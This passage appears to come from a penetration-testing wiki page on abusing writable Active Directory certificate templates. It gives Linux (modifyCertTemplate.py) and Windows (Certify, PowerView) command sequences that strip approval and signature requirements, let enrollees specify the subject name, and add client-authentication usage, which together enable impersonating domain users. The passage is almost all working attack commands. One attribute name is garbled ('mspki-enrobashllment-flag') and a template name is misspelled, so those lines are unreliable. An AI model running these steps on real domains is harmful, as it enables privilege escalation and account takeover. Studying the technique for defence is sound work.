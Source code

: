 ```bash
# 1. Disable Manager Approval Requirement
modifyCertTemplate.py -template templateName -value 2 -property mspki-enrobashllment-flag "$DOMAIN/$USER:$PASSWORD"

# 2. Disable Authorized Signature Requirement
modifyCertTemplate.py -template templateName -value 0 -property mspki-ra-signature "$DOMAIN/$USER:$PASSWORD"

# 3. Enable SAN Specification
modifyCertTemplate.py -template templateName -add enrollee_supplies_subject -property msPKI-Certificate-Name-Flag "$DOMAIN/$USER:$PASSWORD"

# 4. Edit Certificate Application Policy Extension
modifyCertTemplate.py -template templateName -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.5.2.3.4'" -property mspki-certificate-application-policy "$DOMAIN/$USER:$PASSWORD"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate these sensitive access control entries. At the time of writing (October 21st, 2021) [BloodHound](../../recon/bloodhound.md) doesn't support (yet) enumeration of these access controls. [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) can be used to modify the template.

```powershell
# 1. Enumerate sensitive access control entries
Certify.exe find

# 2. Disable Manager Approval Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity tempalteName -XOR @{'mspki-enrollment-flag'=2} -Verbose

# 3. Disable Authorized Signature Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-ra-signature'=0} -Verbose

# 4. Enable SAN Specification
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -XOR @{'mspki-certificate-name-flag'=1} -Verbose

# 5. Edit Certificate Application Policy Extension
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose
```
{% endtab %}
{% endtabs %}
